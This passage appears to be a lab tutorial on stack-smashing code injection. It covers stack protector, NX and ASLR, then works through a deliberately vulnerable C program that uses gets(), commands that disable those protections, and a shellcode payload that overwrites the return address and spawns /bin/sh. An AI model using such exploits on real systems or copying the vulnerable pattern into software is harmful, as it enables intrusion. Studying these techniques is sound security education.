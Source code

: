 
Reference to return address in memory stack:
![Memory stack](http://i.imgur.com/BZvNseJ.png)


### The Three Trials of Code Injection
**Stack smashing protector (SSP)** - inserts runtime stack integrity checks for buffer overflows

**Executable space protection (NX)** - executing code from stack -> seg fault

**Address space layout randomization (ASLR)** - location of the stack is randomized every time. Prevents others from overwriting the return address because they wouldn't know where to point back to.

We need to print out the address of buffer name[]

#### victim.c
```
#include <stdio.h>
int main() {
  char name[64];
  printf("%p\n", name);  // Print address of buffer.
  puts("What's your name?");
  gets(name);
  printf("Hello, %s!\n", name);
  return 0;
}
```

We will now recompile the program and remove the security constraints (SSP, NX, and ASLR)
```
$ gcc -fno-stack-protector -o victim victim.c
$ execstack -s victim
$ setarch `arch` -R ./victim
```

Print the hexadecimal number as unsigned with minimum 16 digits and write output to $a in little endian
```
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ a=`printf %016x 0x7fffffffe400 | tac -rs..`
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ echo $a
00e4ffffff7f0000
```

From below, we know that shellcode takes up 32 bytes and that printing 80 zeroes will be 40 bytes since each 2 zeroes are 1 byte.
64 of those bytes will fill up name[]. The remaining 8 will overwrite the location at RBP register. That means the stack base pointer begins at 0x0 (Note that this just used as filler to get to the location of return address).

The last 8 should overwrite the return address, such that it will be the address of the beginning of the buffer of name[]. Since in name[] we have the binary executable of /bin/sh/, the program will execute /bin/sh/. No prompt is given since the input is actually provided by cat and not the terminal.

```
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ;
> cat ) | setarch `arch` -R ./victim
0x7fffffffe400
What's your name?
world
Hello, �_H1��;H1�H1������/bin/sh!
ls
Vagrantfile  hellcode ; printf -080d 0 ; echo $a ) | xxd -r -p ;  shell  shell.c  shell.dSYM  shellcode  victim  victim.c
ls
Vagrantfile  hellcode ; printf -080d 0 ; echo $a ) | xxd -r -p ;  shell  shell.c  shell.dSYM  shellcode  victim  victim.c
pwd
```